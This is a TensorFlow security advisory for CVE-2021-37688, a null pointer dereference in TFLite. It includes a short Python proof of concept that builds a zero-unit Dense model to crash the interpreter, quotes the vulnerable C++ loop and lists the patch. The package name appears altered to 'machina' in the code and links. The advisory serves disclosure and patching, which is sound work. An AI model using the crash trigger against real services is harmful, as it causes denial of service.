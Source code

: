 ## TFSA-2021-162: Null pointer dereference in TFLite

### CVE Number
CVE-2021-37688

### Impact
An attacker can craft a TFLite model that would trigger a null pointer
dereference, which would result in a crash and denial of service:

```python
import machina as tf

model = tf.keras.models.Sequential()
model.add(tf.keras.Input(shape=(1, 2, 3)))
model.add(tf.keras.layers.Dense(0, activation='relu'))

converter = tf.lite.TFLiteConverter.from_keras_model(model)
tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(model_content=tflite_model)
interpreter.allocate_tensors()

interpreter.invoke()
```

The [
implementation](https://github.com/machina/machina/blob/149562d49faa709ea80df1d99fc41d005b81082a/machina/lite/kernels/internal/optimized/optimized_ops.h#L268-L285)
unconditionally dereferences a pointer.

```cc
  if (y4 > 1) {
    // ...
  } else {
    for (int i0 = 0; i0 < y0; ++i0) {
      const T* input2_data_ptr = nullptr;
      for (int i1 = 0; i1 < y1; ++i1) {
        input2_data_ptr = input2_data_reset;
        for (int i2 = 0; i2 < y2; ++i2) {
          scalar_broadcast_f(y3, params, *input1_data_ptr, input2_data_ptr,
                             output_data_ptr);
        }
      }
    }
  }
```

### Patches
We have patched the issue in GitHub commit
[15691e456c7dc9bd6be203b09765b063bf4a380c](https://github.com/machina/machina/commit/15691e456c7dc9bd6be203b09765b063bf4a380c).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
